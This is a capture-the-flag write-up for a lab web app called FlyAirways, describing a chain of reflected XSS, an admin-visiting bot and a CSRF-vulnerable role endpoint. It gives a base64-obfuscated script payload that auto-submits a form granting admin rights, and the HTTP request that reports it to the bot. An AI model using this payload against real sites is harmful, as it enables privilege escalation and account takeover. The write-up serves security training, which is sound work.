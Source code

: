 # FlyAirways
# Author: [Shlok](https://github.com/pphreak-1001)

## Challenge Overview

FlyAirways is a flight booking web application with user registration, login, profile management, and an admin panel. The goal is to escalate our user role to `admin` by exploiting:

1. A **Reflected XSS** vulnerability.
2. An **admin bot** that visits reported URLs while logged in as admin.
3. A **CSRF-vulnerable endpoint** (`/update-role`) that lacks anti-CSRF tokens.

Once we become admin, we can fetch the flag via `/get-flag`.

## Goal
- Exploit the Reflected XSS and chain it with reporting feature to make the update-role request from admin's account and escalate self role to Admin.

## Solution

Final malicious URL:
```
http://flyairways.local:9030/flight_info?q="><script>document.write(atob('PGZvcm0gaWQ9eCBhY3Rpb249L3VwZGF0ZS1yb2xlIG1ldGhvZD1QT1NUPjxpbnB1dCBuYW1lPXRhcmdldF91c2VyX2lkIHZhbHVlPTEyM2U0NTY3LWU4OWItMTJkMy1hNDU2LTQyNjYxNDE3NDAwMD48aW5wdXQgbmFtZT1yb2xlIHZhbHVlPWFkbWluPjwvZm9ybT48c2NyaXB0PmRvY3VtZW50LmdldEVsZW1lbnRCeUlkKCd4Jykuc3VibWl0KCk8L3NjcmlwdD4='))</script>
```
Replace 123e4567-e89b-12d3-a456-426614174000 with your actual user_id from the session or /api/user. 

Report it to admin

```
POST /report-incorrect-info HTTP/1.1
Host: flyairways.local:9030
Cookie: session=...

incorrect_url=http://flyairways.local:9030/flight_info?q=%22%3E%3Cscript%3Edocument.write(atob(%27PGZvcm0gaWQ9eCBhY3Rpb249L3VwZGF0ZS1yb2xlIG1ldGhvZD1QT1NUPjxpbnB1dCBuYW1lPXRhcmdldF91c2VyX2lkIHZhbHVlPTEyM2U0NTY3LWU4OWItMTJkMy1hNDU2LTQyNjYxNDE3NDAwMD48aW5wdXQgbmFtZT1yb2xlIHZhbHVlPWFkbWluPjwvZm9ybT48c2NyaXB0PmRvY3VtZW50LmdldEVsZW1lbnRCeUlkKCd4Jykuc3VibWl0KCk8L3NjcmlwdD4=%27))%3C/script%3E
```

After a few seconds, your role will be upgraded to admin. 

